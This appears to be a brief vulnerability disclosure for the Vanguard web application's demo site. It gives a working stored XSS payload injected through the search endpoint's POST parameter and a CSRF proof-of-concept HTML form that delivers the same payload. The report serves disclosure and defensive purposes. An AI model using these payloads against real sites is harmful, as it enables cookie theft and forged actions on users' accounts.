 ### Vanguard   XSS/CSRF

Well, when I pentest the official demo site of Vanguard, I found some vulnerabilities here.


#### XSS:

There're some stored-xss in this system, for example:

```
http://vanguard-demo.esy.es/search
```

POST para:
```
POST parameter：

phps_query=123'"><svg/onload=alert(document.cookie)><'"&phps_search=

------WebKitFormBoundaryfu9qSQ2wg10j0QFz
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Vanguard/xss.png)


#### CSRF:

Because of no protection here, we can use csrf attack to cheat the user to suffer from reflect-xss, or change something sensitive int the panel directly.
By the way ,I just found no protection in the user panel here.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://vanguard-demo.esy.es/search" method="POST">
      <input type="hidden" name="phps&#95;query" value="123&apos;&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;document&#46;cookie&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="phps&#95;search" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

